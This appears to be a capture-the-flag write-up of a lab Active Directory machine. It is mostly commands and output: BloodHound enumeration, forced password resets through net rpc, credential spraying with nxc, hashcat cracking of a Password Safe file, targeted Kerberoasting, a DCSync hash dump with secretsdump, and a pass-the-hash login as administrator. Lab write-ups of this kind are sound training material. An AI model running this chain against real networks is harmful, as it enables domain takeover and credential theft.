










The first step our lab is basic enumeration with **Nmap**

```bash
sudo nmap -sV -sC 10.129.43.96 -p- -Pn -A -v
```

On Enumeration we can see several open port lets check each one by one 

On Further Enumeration with Bloodhound-python I found the olivia have an generic all write over benjamine

```bash
bloodhound-python -u Olivia -p ichliebedich -d administrator.htb  -c all -ns 10.129.43.96
```
Zipping all the jason file into one 
```bash
zip bloodhound_output.zip *.json credentials
```




Since we GenericAll write on the michael we cna net rpc force change the password

```bash
net rpc password "michael" "12345678" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.129.43.96
```

Lets try use evil-winrm weather we have pawned michael or not 
```bash
evil-winrm -i administrator.htb -u michael -p 12345678

```
yes we pawned him Lets check our next target 


Next target is benjamine we have forcechangePassword authority over him 
Lets change the password
```bash
net rpc password "benjamin" "12345678" -U "administrator.htb"/"michael"%"12345678" -S 10.129.43.96
```

Now lets enumerate each of the open ports 
```bash
┌──(penguin㉿0XFAF0)-[~/Downloads]
└─$ nxc ldap 10.129.125.9 -u benjamin -p 12345678           
LDAP        10.129.125.9    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
LDAP        10.129.125.9    389    DC               [+] administrator.htb\benjamin:12345678 

```
smb pawned !

```bash

┌──(penguin㉿0XFAF0)-[~/Downloads]
└─$ nxc winrm 10.129.125.9 -u benjamin -p 12345678                                                                
WINRM       10.129.125.9    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.125.9    5985   DC               [-] administrator.htb\benjamin:12345678
**
```

winrm not pawned !

```bash
┌──(penguin㉿0XFAF0)-[~/Downloads]
└─$ nxc smb 10.129.125.9 -u benjamin -p 12345678                                                                  
SMB         10.129.125.9    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.125.9    445    DC               [+] administrator.htb\benjamin:12345678 

```

smb pawned !

```bash
nxc ftp 10.129.125.9 -u benjamin -p 12345678
FTP         10.129.125.9    21     10.129.125.9     [+] benjamin:12345678

```

FTP pawned!

lets start enumerating with **FTP** 

```bash
ftp benjamin@10.129.125.9

```

We found an file psafe.file which is an password-protected database created by password safe application

Lets start cracking the psafe.file using hashcat 

```bash
hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
```

cracked password --> ```
```
Backup.psafe3:tekieromucho 
```
lets use pwsafe to open the file 

```bash
alexander - UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily - UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma - WwANQWnmJnGV07WQN8bMS7FMAbjNur

```

these are the credential we found from the file lets check one by one which all service we have access from the given user name and password

lets start with Alexander 




we dont hace any luck with alexander so lets start with **Emily**




so winrm is pawned lets see whats inside
```bash 
evil-winrm -i 10.129.125.9 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```
so the first flag is captured from emily 
Lets mark Emily as pawned in the bloodhound and Emily has genericWrite on Ethan




then we are doing targeted kerberosting attack using  **targetedKerberoast.py** 
```bash
 python3 targetedKerberoast.py -v -d 'administrator.htb' -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```



Now Lets, start cracking the hash with hashcat 
the password is  
```limpbizkit ```
lets start further enumerating with credentials

i can see its only valid for smb
```bash
nxc smb 10.129.125.9 -u ethan -p limpbizkit
```




On SMB enumeration we dont see any particular file which may help us we may comeback later 
```bash
smbmap -H 10.129.125.9 -u  ethan -p limpbizkit -r

```




Lets mark the user as owned in bloodhound find the next target and we can see on Administrator.htb we have DCsync access hat will allow for a full domain takeover




we can perform DCSync attack to get the hash of administrator
```bash
impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@'administrator.htb' 
```
```hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
```




lets use evil-winrm to access the administrator 
```bash
evil-winrm -i administrator.htb -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```




